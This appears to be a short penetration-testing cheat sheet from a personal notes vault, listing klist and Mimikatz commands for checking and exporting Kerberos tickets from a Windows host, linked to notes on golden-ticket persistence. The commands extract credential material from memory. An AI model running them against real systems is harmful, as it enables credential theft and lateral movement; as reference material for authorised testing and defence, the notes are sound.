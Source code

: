 # Mimikatz

## Extracting Tickets

Check if tickets are present

```
C:\> klist

mimikatz # kerberos::list

mimikatz # kerberos::tgt
```

Extract tickets

```
mimikatz # sekurlsa::tickets /export
```

---
## References

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x07 - Maintaining Access/Persistence/Windows/Domain Persistence/Create Ticket/Golden Ticket/C2 Frameworks/Metasploit]]